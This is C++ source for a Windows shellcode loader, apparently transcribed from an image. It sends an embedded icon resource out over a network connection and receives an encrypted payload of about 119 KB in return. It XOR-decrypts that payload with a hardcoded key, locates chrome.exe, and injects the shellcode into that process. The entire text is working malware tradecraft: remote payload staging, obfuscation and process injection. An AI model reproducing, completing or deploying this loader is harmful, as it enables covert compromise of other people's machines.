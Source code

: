 ```cpp

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
//int main() {

	BOOL retval;
	HANDLE threadHandle;
	DWORD oldprotect = 0;
	HGLOBAL resHandle = NULL;
	HRSRC res;

	char response[DEFAULT_BUFLEN] = "";
	unsigned char * bytes;
	unsigned int lengthOfBytes;
	void * shellcodePayload;
	unsigned int lengthOfShellcodePayload = 119038;

	shellcodePayload = malloc(lengthOfShellcodePayload);
	memset(shellcodePayload, 0, lengthOfShellcodePayload);

	char encryption_key[] = "wubbalubbadubdub";
	int pid = 0;

	HANDLE hProcess;

	// Retrieve shellcode payload from resources section
	res = FindResource(NULL, MAKEINTRESOURCE(MY_ICON), RT_RCDATA);
	resHandle = LoadResource(NULL, res);
	bytes = (unsigned char *) LockResource(resHandle);
	lengthOfBytes = SizeofResource(NULL, res);

	//printf("\n%-20s : 0x%-016p\n", "Bytes addr", (void *) bytes);
	//printf("\n%-20s : 0x%-016p\n", "Shellcode payload addr", (void *) shellcodePayload);

	// Send ICO bytes and recive encrypted shellcode bytes
	SendBytes((char *) bytes, lengthOfBytes);
	RecvBytes((char *) shellcodePayload, lengthOfShellcodePayload);
	//printf("\nPress Enter to Decrypt Shellcode Payload\n");
	//getchar();

	// Decrypt the XOR payload to original shellcode
	XOR((char *) shellcodePayload, lengthOfShellcodePayload, encryption_key, sizeof(encryption_key));

	// Injection
	pid = SearchForProcess("chrome.exe");
	if (pid) {
		//printf("chrome.exe PID = %d\n", pid);

		// try to open target process
		hProcess = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, (DWORD) pid);
		//printf("\nhProcess = %x\n", hProcess);
		//printf("\nPress Enter to Inject the Shellcode Payload\n");
		//getchar();

		if (hProcess != NULL) {
			ShellcodeInject(hProcess, (unsigned char *) shellcodePayload, lengthOfShellcodePayload);
			CloseHandle(hProcess);
		}
	}
	return 0;
}
```